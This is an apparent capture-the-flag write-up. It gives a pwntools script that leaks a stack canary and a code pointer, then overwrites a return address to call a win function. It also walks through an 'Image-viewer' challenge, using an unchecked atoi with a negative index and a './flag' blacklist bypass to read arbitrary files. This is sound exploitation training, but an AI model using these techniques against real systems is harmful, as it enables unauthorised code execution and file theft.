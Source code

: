 ```
p.sendline('a')

p.readuntil(': ')
p.sendline('5')
p.sendline(p32(stackPointer + 0x3d))
p.sendline('b')

p.readuntil(': ')
codePointer = u32(p.readn(4))

win = codePointer - 0x183b

canaryPadding = b'A' * 0x60
returnPadding = b'A' * 8

p.readuntil('quit')
p.sendline('a')
p.readuntil(': ')
p.sendline('113')           # 0x60 + 4 + 8 + 4 + 1 (newline)
p.sendline(canaryPadding + canary + returnPadding + p32(win))

p.readuntil('quit')
p.readuntil('quit')

p.sendline('d')

p.interactive()
```

## Image-viewer

---

FLAG{REDACTED}

---

_The effect of an unchecked atoi can be so intense lol_

This was a very interesting exploit. Since the buffer and the images array both are global variables, and the atoi is directly used to index into the array, it can be used to index into the buffer, using negative indices. Pretty cool. All you need to be careful is of byte alignment.

1. First you need the index. I chose -2, but -1 would also work the same. Put this index at the start of the buffer, so you can pass that to atoi.
2. Choose your filename. The whole idea is that you can read any file you want, so choose the name, and put it right after the index (although it can be _mostly_ anywhere in the buffer). Remember that the "blacklist" was for the exact file name, so it is easy to get around by simply supplying a relative path like `./flag` instead of `flag`.
3. Find the address of the filename string. In my case, it was `0x804c064`, although there was no need to worry about byte alignment for the filename.
4. Padding the buffer with a bunch of 'a's, the next thing on the list is memory management.
5. Make sure that the "entry" into the images array seems legitimate, we use the first 4 bytes to store the id, which based on the checks should be the same as the array index, -2 in this case. The next 4 bytes store the address to the filename. You need to worry about byte alignment for the index to be correct, so "allocating memory" for the images array from the end of the buffer is a great idea.
6. You can now leak any file you want :)
